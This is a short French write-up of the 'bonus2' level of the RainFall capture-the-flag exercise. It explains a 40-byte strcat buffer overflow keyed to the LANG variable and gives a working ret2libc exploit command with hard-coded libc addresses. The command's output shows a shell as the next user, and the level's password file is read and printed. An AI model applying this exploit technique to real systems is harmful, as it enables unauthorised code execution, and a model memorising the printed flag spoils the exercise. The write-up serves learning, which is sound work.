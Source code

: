#### Etape 1 : Décompilation

Le bianire appelle la variable d'environnement LANG et print en fonction de celle-ci une string associé.
Avant de print cette variable le binaire effectue un strcat de la string avec une autre variable globale qui pointe sur une adresse de la stack.

#### Etape 2 : Informations

Lors du strcat le buffer destinataire fait 40 octets.
Si l'on copie 40 caractères et ainsi on ne met plus de '\0' à la fin, la string contiendra les caractères du 2e argument du programme.

#### Etape 3 : Objectif

L'objectif sera donc d'écrire dans le premier argument 40 caractères puis dans le second de faire en sorte d'éxécuter un shell.
Après avoir tenter d'ajouter un shellcode sans succès nous avons tentés de reproduire un ret2libc.
Celui ci nécessite d'appeler le pointeur de la fonction system, d'y ajouter ensuite un pointeur vers une fonction, c'est necessaire pour spécifier dans quel fonction retourner après l'appel a system. Pour finir ajouter une adresse qui correspond a la chaine de caractères que l'on souhaite éxécuter.

#### Etape 4 : Execution 

```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print "A"*40'` `python -c 'print "A" * 18 + "\x60\xb0\xe6\xb7" + "\x8a\x84\x04\x08" + "\x58\xcc\xf8\xb7"'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�淊X��
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```